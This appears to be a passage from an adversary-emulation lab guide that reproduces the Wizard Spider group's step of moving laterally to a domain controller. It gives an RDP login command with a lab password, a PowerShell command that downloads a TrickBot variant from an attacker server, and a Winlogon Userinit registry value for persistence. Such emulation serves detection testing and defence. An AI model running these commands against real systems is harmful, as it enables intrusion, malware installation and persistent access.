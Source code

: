 <br>

## Test 3 (Step 7)

### Step 7 - Lateral Movement to DC

:microphone: `Voice Track:`

In step 7 Wizard Spider RDP's into the domain controller as user vfleming.

Wizard Spider dowloads a TrickBot variant to the DC using PowerShell's `Invoke-WebRequest` command.

Wizard Spider then establishes registry persistence to execute Trickbot when vflemming logs in.

Lastly, Wizard Spider enumerates the domain using the `adfind` utility.

```
Compromised user info:

User:	vfleming@oz.local

System: 10.0.0.4 / wizard

File Write (Tribot EXE variant): %AppData%\uxtheme.exe

Registry Write:  HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\

Key: Userinit

Value: Userinit.exe, $env:AppData\uxtheme.exe
```

---

### ☣️ Procedures

:warning: Go back to your Toto RDP session and sign out: `Right-click Windows icon -> Shut down or sign out -> Sign out`

Rename your RDP terminal to "RDP to wizard"

RDP to wizard / 10.0.0.4.

```bash
# Wizard Spider has used RDP for lateral movement.[5][2][8]

xfreerdp +clipboard /u:oz\\vfleming /p:"q27VYN8xflPcYumbLMit" /v:10.0.0.4 /drive:X,wizard_spider/Resources/Ryuk/bin
```

:warning: Open an **administrator powershell**.

Download a trickbot variant (same binary with a zero appended to the very end)

```bash
# Wizard Spider has established persistence using Userinit by adding the Registry key HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon.[3]

Invoke-WebRequest -Uri http://192.168.0.4:8080/getFile/uxtheme.exe -OutFile $env:AppData\uxtheme.exe
```
